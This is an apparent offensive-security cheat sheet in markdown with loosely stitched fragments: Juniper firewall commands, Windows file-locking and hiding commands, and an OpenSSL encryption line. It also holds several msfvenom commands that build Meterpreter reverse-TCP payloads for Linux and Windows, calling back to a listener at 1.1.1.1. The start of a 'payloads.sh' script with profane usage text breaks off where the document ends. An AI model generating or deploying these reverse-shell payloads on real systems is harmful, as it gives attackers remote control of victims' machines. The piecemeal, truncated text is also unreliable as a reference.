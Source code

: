show security nat source summary
```
```
set security policies global policy <name> then log session-init  

```


## locking files on windows
keep this handle open in a process:
```
CreateFile('C:\\ownership.txt', GENERIC_READ, 0, NULL, OPEN_EXISTING, 0, 0);
```

commandline

```
attrib +R +H +S "C:\ownership.txt"
icacls.exe "C:\ownership.txt" /reset /T
icacls.exe "C:\ownership.txt" /setowner "Nobody"
```

### Linux x86 reverse tcp
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=1.1.1.1 LPORT=5555 -f elf > linux_5555.elf
``` 
### Linux x86_64 reverse tcp
```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=1.1.1.1 LPORT=6666 -f elf > linux_6666.elf
```
### Windows reverse tcp
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=1.1.1.1 LPORT=31337 -f exe > windows_31337.exe
``` 
### Windows cmd to meterp
```
msfvenom -p windows/meterpreter/reverse_tcp -f psh-cmd LHOST=1.1.1.1 LPORT=31337 > windows_cmd.txt
```



## Encrypt Files w/ OpenSSL

```
openssl aes-256-cbc -a -salt -in test.txt -out test.txt.shadowf.enc
``` 

## Payloads.sh 
```
#!/bin/bash
if \[\[ $# -eq 0 \]\] ; then
    echo './payloads.sh our\_fucking\_ip_idiot'
    echo './payloads.sh our\_fucking\_ip_idiot'
    echo './payloads.sh our\_fucking\_ip_idiot'
    echo './payloads.sh our\_fucking\_ip_idiot'
    echo './payloads.sh our\_fucking\_ip_idiot'
    echo './payloads.sh our\_fucking\_ip_idiot'
    echo './payloads.sh our\_fucking\_ip_idiot'
    echo './payloads.sh our\_fucking\_ip_idiot'
    echo './payloads.sh our\_fucking\_ip_idiot'
    echo './payloads.sh our\_fucking\_ip_idiot'
    echo './payloads.sh our\_fucking\_ip_idiot'
                ifconfig
    exit 0
fi
